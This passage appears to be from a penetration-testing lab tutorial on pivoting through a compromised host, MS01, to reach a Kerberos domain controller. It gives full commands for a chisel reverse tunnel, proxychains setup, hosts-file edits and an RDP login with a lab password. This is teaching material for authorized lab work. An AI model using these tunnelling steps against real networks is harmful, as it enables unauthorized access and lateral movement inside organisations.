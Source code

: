 In this scenario, our attack host doesn't have a connection to the `KDC/Domain Controller`, and we can't use the Domain Controller for name resolution. To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.
#### Host file modified
```shell
> cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

We need to modify our proxychains configuration file to use socks5 and port 1080.

#### Proxychains configuration file
```shell
cat /etc/proxychains.conf

...SNIP...

[ProxyList]
socks5 127.0.0.1 1080
```

We must download and execute [chisel](https://github.com/jpillora/chisel) on our attack host.
#### Download Chisel to our attack host
```shell
> wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
> gzip -d chisel_1.7.7_linux_amd64.gz
> mv chisel_* chisel && chmod +x ./chisel
> sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

Connect to `MS01` via RDP and execute chisel (located in C:\Tools).

#### Connect to MS01 with xfreerdp
```shell
> xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute chisel from MS01
```cmd
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```
